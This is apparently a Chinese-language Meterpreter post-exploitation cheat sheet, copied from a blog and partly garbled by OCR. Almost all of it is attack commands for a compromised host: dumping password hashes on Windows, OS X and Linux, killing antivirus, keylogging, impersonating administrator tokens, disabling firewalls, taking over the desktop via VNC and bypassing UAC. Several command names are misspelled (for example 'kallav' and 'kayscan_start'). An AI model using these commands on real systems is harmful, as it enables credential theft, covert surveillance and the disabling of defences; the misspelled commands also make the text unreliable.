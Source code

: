 meterpreter>hashdump

提示：在widonws 2008中，如果getsystem命令和hashdump命令抛出异常情况时，你需要迁移到一个以SYSTEM系统权限运行的进程中。

自动迁移到一个独立进程。

meterpreter>run migrate

 

通过meterpreter的killav脚步来杀死目标主机运行的杀毒软件进程。

meterpreter>run kallav

针对一个特定的进程捕获目标主机上的键盘记录：

meterpreter>ps

meterpreter>migrate 1436

meterpreter>kayscan_start

meterpreter>kayscan_start

meterpreter>keyscan_dump

meterpreter>kayscan_stop

使用匿名方式来假冒管理员：

meterpreter>use incognito

meterpreter>list_tokens -u

meterpreter>use priv

meterpreter>getsystem

meterpreter>list_tokens -u

meterpreter>impersonate_token IHAZSECURITY\\Admininistrator

查看目标主机都采取了那些防范保护措施，列出帮助菜单，关闭防火墙以及其它我们发现的保护措施。

meterpreter>run getcountermeasure

meterpreter>run getcountermeasure -h

meterpreter>run getcountermeasure -d -k

识别被控制的主机是否是一台虚拟机。

meterpreter>run checkvm

在一个meterpreter会话界面中使用cmd shell。

meterpreter>shell

获取目标主机的图形界面（VNC）.

meterpreter>run vnc

使正在运行的meterpreter界面在后台运行。

meterpreter>background

绕过windows的用户账户控制（UAC）机制。

meterpreter>run post/windows/escalate/bypassuac

导出苹果OS-X系统的口令哈希值。

meterpreter>run post/osx/gather/hashdump

导出linux系统的口令哈希值。

meterpreter>run post/linux/gather/hashdump

参考链接：https://www.cnblogs.com/hijacklinux/p/7072854.html
